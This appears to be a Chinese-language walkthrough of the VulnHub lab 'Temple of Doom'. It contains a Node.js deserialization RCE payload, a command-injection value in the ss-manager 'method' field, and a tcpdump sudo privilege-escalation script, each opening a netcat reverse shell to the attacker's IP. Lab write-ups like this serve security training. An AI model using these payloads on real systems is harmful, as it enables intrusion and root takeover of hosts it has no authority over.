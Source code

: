 # Temple of Doom

> https://download.vulnhub.com/templeofdoom/temple-of-DOOM-v1.ova

靶场IP：`192.168.32.10`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.10
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 23:25 EDT
Nmap scan report for 192.168.32.10
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
666/tcp open  http    Node.js Express framework
MAC Address: 08:00:27:D1:C1:2D (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.63 seconds

```

浏览器访问666端口

![image-20220907112648441](../../.gitbook/assets/image-20220907112648441.png)

再次刷新就会报错

![image-20220907123835446](../../.gitbook/assets/image-20220907123835446.png)

使用bp抓取数据包，分析，报错原因是CSRFtoken过期导致报错

![image-20220907133703733](../../.gitbook/assets/image-20220907133703733.png)

把CSRF相关字段删掉重新发送，会提示`helle Admin`。

![image-20220907133849418](../../.gitbook/assets/image-20220907133849418.png)

根据nodejs反序列化漏洞，可以生成payload

> https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```
{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('id',(error, stdout, stderr)=>{ console.log(stdout); }); }()"}
```

![image-20220907134931940](../../.gitbook/assets/image-20220907134931940.png)

构造反弹shell

```
{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('nc -e  /bin/bash 192.168.32.5 1234', (error, stdout, stderr)=>{ console.log(stdout); }); }()"}
```

![image-20220907135115408](../../.gitbook/assets/image-20220907135115408.png)

查看`/etc/passwd`文件，找到ss-manager 

```
fireman:x:1002:1002::/home/fireman:/bin/bash
```

找到exp：https://www.exploit-db.com/exploits/43006

```
nc -u 127.0.0.1 8839
```

```
add: {"server_port":8003, "password":"test", "method":"|| nc 192.168.32.5 5555 -e /bin/bash||"}
```

![image-20220907140028677](../../.gitbook/assets/image-20220907140028677.png)

提权exp

```
COMMAND='nc 192.168.32.5 5001 -e /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

可以建立连接

![image-20220907140827841](../../.gitbook/assets/image-20220907140827841.png)

![image-20220907140857960](../../.gitbook/assets/image-20220907140857960.png)